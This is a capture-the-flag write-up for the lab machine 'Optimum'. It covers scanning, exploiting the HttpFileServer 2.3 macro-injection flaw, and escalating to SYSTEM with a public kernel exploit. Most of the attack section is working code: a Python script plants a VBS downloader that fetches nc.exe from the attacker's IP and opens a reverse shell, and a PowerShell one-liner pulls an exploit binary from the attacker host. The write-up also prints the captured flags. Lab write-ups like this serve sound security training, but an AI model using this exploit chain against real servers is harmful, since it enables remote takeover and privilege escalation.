


# Optimum (Windows)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.127 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Looking at the open port 80 via the Browser, we see following page:



The server is hosting a HTTPFileServer version 2.3. Doing some research shows, that this specific version has some kind of Remote Code Injection vulnerability.

## Exploitation

The version of the File server uses a library `ParserLib.pas`, which contains a vulnerable function `findMacroMarker`

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

This does not handle null bytes! So we can simply request 

```
http://localhost:80/?search=%00{.exec|cmd.}
```

This will stop the regex from parsing the macro and instead execute the macro.


To abuse the vulnerability, I used this script here (might have to execute it several times). You also need to start a http server, from which the script then can download the `nc.exe`, in order to create a reverse shell to your machine.

```python
import urllib2
import sys

try:
        def script_create():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

        def execute_script():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

        def nc_run():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

        ip_addr = "10.10.14.26" #local IP address
        local_port = "4444" # Local Port number
        vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
        save= "save|" + vbs
        vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
        exe= "exec|"+vbs2
        vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
        exe1= "exec|"+vbs3
        script_create()
        execute_script()
        nc_run()
except:
        print """[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script"""

```

If everything is setup correctly, we can run the script and receive a reverse shell:

```
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```


## Privilege Escalation

Now that we have access to the server, we can look for a way to escalate our privileges. Therefore, we copy the `systeminfo` output to our local machine and use `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to identify a possible vulnerability.

Going through the list, I stumbled upon this vulnerability: https://www.exploit-db.com/exploits/41020 ([Details](https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/), [Binary](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)).

As wget and curl are both not available for our current user, we have to use Powershell.

```
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.26/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Afterwards, we can use the exploit to obtain system privileges.

```
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

## Post-Exploitation

User Flag
```
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

Root Flag

```
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```